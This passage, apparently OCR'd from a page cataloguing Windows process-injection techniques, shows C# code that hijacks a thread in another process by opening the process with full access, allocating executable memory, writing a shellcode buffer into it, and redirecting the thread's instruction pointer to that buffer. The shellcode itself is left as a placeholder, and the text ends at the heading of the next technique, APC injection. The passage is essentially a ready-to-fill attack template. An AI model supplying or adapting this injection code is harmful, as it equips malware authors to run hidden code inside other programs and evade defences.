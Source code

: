 ```csharp
        public override string ToString()
        {
            return string.Format("High:{0}, Low:{1}", this.High, this.Low);
        }
    }

    const uint PROCESS_ALL_ACCESS = 0x1F0FFF;
    const uint THREAD_ALL_ACCESS = 0x1F03FF;
    const uint CONTEXT_FULL = 0x10007;
    const uint MEM_COMMIT = 0x1000;
    const uint MEM_RESERVE = 0x2000;
    const uint PAGE_EXECUTE_READWRITE = 0x40;

    static void Main()
    {
        int targetProcessId = 1234; // Replace with the target process ID
        byte[] shellcode = new byte[] { /* Your shellcode here */ };

        IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, targetProcessId);
        IntPtr allocMemAddress = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

        IntPtr bytesWritten;
        WriteProcessMemory(hProcess, allocMemAddress, shellcode, (uint)shellcode.Length, out bytesWritten);

        Process targetProcess = Process.GetProcessById(targetProcessId);
        foreach (ProcessThread thread in targetProcess.Threads)
        {
            IntPtr hThread = OpenThread(THREAD_ALL_ACCESS, false, (uint)thread.Id);

            SuspendThread(hThread);

            CONTEXT ctx = new CONTEXT();
            ctx.ContextFlags = CONTEXT_FULL;
            GetThreadContext(hThread, ref ctx);

            ctx.Rip = (ulong)allocMemAddress;

            SetThreadContext(hThread, ref ctx);

            ResumeThread(hThread);
            break; // Injecting into the first thread found
        }
    }
}

```

### 2. APC Injection
